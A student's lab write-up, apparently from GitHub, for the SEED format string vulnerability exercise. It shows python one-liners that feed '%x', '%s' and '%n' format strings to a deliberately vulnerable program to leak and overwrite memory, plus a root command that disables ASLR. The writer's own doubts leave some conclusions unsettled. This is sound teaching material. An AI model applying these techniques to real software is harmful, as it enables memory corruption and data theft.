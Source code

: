 Format String Vulnerability Lab
===============================

http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Software/Format_String/

# Lab1

Files:
- Makefile
- vul_prog.c

## Summary
`vul_prog.c` give a malloced array `secret` and asked you to get the value of `scret[1]` and overwrite it.
I can do that when this program compiled as 32 bits but there still some unsolved problems in 64 bit.

`vul_prog.c` give us the address of `secret` every times, it means that ASLR is no longer vaild.

below is the varibles memory layout of vul_prog in my machine:

    gcc -m32 -z execstack -fno-stack-protector vul_prog.c -o vul_prog.out 
    sizeof(int) 4
    userinput 0xffc6131c
    secret 0xffc61314
    int_input 0xffc61310
    a 0xffc6130c
    b 0xffc61308
    c 0xffc61304
    d 0xffc6133e
    The variable secret's address is 0xffc61318 (on stack)
    The variable secret's value is 0x 804a410 (on heap)
    secret[0]'s address is 0x 804a410 (on heap)
    secret[1]'s address is 0x 804a414 (on heap)
    Please enter a decimal integer
    ...
    Please enter a string
    ...
    The original secrets: 0x44 -- 0x55
    The new secrets:      0x44 -- 0x55

> Doubt: I don't know why there are 8 bytes between `user_input` and `int_input`

## Access varible 

    printf("Please enter a decimal integer\n");
    scanf("%d", &int_input);  /* getting an input from user */
    printf("Please enter a string\n");
    scanf("%s", user_input); /* getting a string from user */
    
    /* Vulnerable place */
    printf(user_input);
    printf("\n");

As you see, `printf` print a user-input string without any parameter (IT IS DANGREOUS),
we can use it to access varible on stack.

first, find the location of `int_input`:

    $ make
    $ python -c "print('57005'); print('%x-'*20)" | ./vul_prog.out | grep dead
    ...
    ffa49ddc-ffa49dc8-ffa49dc4-ffa49dfe-1-c2-f75b21c3-ffa49dfe-dead-804b010-252d7825- ...
                                                               ^^^^ ^^^^^^^
    ...

> 57005 = 0xdead

so we can access `int_input` by input string `'%x'*9`, and `secret` can be accessd by `'%x'*10`.

How to get the value of `scret[0]`?

    $ python -c "print('57005'); print('%x-'*9 + '%s')" | ./vul_prog.out
    ...
    ffd6f1fc-ffd6f1e8-ffd6f1e4-ffd6f21e-1-c2-f76061c3-ffd6f21e-dead-D
                                                                    ^
    ...

`hex(ord('D'))` is `0x44`, the vaule of `secret[0]`.

How to get the value of `scret[1]`?

We can control the value of `int_input`, and we know the address of `secret[1]` (from the output of program),
more convience, we can close ASLR so that we don't need to input the variable address everytime.

    $ su -c 'echo 0 > /proc/sys/kernel/randomize_va_space'

> randomize_va_space values
> 1. Disable ASLR. This setting is applied if the kernel is booted with the norandmaps boot parameter.  
> 2. Randomize the positions of the stack, virtual dynamic shared object (VDSO) page, and shared memory regions. The base address of the data segment is located immediately after the end of the executable code segment.  
> 3. Randomize the positions of the stack, VDSO page, shared memory regions, and the data segment. This is the default setting.

Address of `secret[1]` is 0x804a414, converts to decimal is 134521876:

    $ python -c "print('134521876'); print('%x-'*8 + '%s')" | ./vul_prog.out
    ...
    ffc6131c-ffc61308-ffc61304-ffc6133e-1-c2-f75921c3-ffc6133e-U
                                                               ^
    ...

`hex(ord('U'))` is `0x55`, the vaule of `secret[1]`.

## Overwrite varible 

> %n: Nothing printed. The corresponding argument must be a pointer to a signed int. The number of characters written so far is stored in the pointed location.

Use `%n` write a vaule to `scret[1]`:

    $ python -c "print('134521876'); print('%x-'*8 + '%n')" | ./vul_prog.out
    ...
    ff9efafc-ff9efae8-ff9efae4-ff9efb1e-1-c2-f76671c3-ff9efb1e-
    The original secrets: 0x44 -- 0x55
    The new secrets:      0x44 -- 0x3b
                                  ^^^^

`secret[1]` has changed to 0x3b

Write a arbitrary (?) value to `scret[1]` (by controlling the length of output string):

    $ python -c "print('134521876'); print('%x-'*8 + '0'*+ '%n')" | ./vul_prog.out
    ...
    ff868acc-ff868ab8-ff868ab4-ff868aee-1-c2-f762c1c3-ff868aee-00000000000 ...
    The original secrets: 0x44 -- 0x55
    The new secrets:      0x44 -- 0x233
                                  ^^^^^
    [1]    3824 done                              python -c "print('134521876'); print('%x-'*8 + '0'*504 + '%n')" | 
           3825 segmentation fault (core dumped)  ./vul_prog.out

It seem that the value can no smaller then 0x3b, and too large string will causes segmentation fault. (is it right?)

## 64 bit

To get a 64bit executable, invoke `make ARCH=64 vul_prog.out`

Memory layout:

    sizeof(int *): 8
    userinput 0x7fffffffe550
    secret 0x7fffffffe548
    int_input 0x7fffffffe544
    a 0x7fffffffe540
    b 0x7fffffffe53c
    c 0x7fffffffe538
    d 0x7fffffffe534
    The variable secret's address is 0xffffe548 (on stack)
    The variable secret's value is 0x  601420 (on heap)
    secret[0]'s address is 0x  601420 (on heap)
    secret[1]'s address is 0x  601424 (on heap)

> NOTE: size of x64 stack cell is 8 byte, sizeof(int) = 4, sizeof(int *) = 8

     high                low
    |-----------------------|
    |         secret        |
    |-----------------------|
    | int_input |     a     |
    |-----------------------|
    |    b      |     c     |
    |-----------------------|
    |    d      |           |
    |-----------------------|
     low

Access `secret[0]`:

    $ python -c "print('57005'); print('%016lx-'*10 + '%s')" | ./vul_prog.out
    ...
    0000000000000001-00007ffff7dd5770-000000000000000a-0000000000400a30-0000000000000000-\
    00007fffffffe6a8-0000000100000000-0000000400000000-0000000200000003-0000dead00000001-D
                                                                            ^^^^         ^
    ...

Overwrite `secret[1]`:
    // TODO

# Lab2
